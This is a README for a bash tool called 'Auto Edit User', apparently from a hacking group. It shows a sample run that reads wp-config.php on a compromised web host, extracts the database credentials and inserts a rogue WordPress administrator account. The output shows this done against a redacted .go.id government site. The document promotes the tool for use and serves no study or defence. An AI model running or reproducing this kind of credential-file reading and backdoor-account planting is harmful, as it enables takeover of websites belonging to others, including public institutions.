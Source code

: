   ![alt text](https://raw.githubusercontent.com/HaxorSecInfec/wp-audit/main/Screenshot%202024-03-01%20024507.jpg)

# Auto Edit User v1
### Version : 1.1
### Author : HaxorSecKill

#### Run
```
root@HaxorSec:~# bash auto

   _   _   _   _   _   _   _   _     _   _   _   _
  / \ / \ / \ / \ / \ / \ / \ / \   / \ / \ / \ / \
 ( A | u | t | o | E | d | i | t ) ( U | s | e | r )
  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/   \_/ \_/ \_/ \_/

 Coded By: HaxorSecKill Infection

Path Your Find WP-CONFIG.PHP: /home/Your-User/public_html
Your Username: haxorsecurity

[+] Getting Config From /home/Your-User/public_html/wp-config.php
[*] dbname: [redacted] |dbuser: [redacted] |dbpassword: [redacted] |table_prefix: [redacted]
[+] Trying Added Username and Password: haxorsecurity | HaxorSecInfec
[+] Your ID: 7
[+] Url Login : https://[redacted].go.id/wp-login.php
[+] Successfull AddUser admin!
```

### Enjoy!
### Bug ? Please Report issue or contact : mrcakil@programmer.net
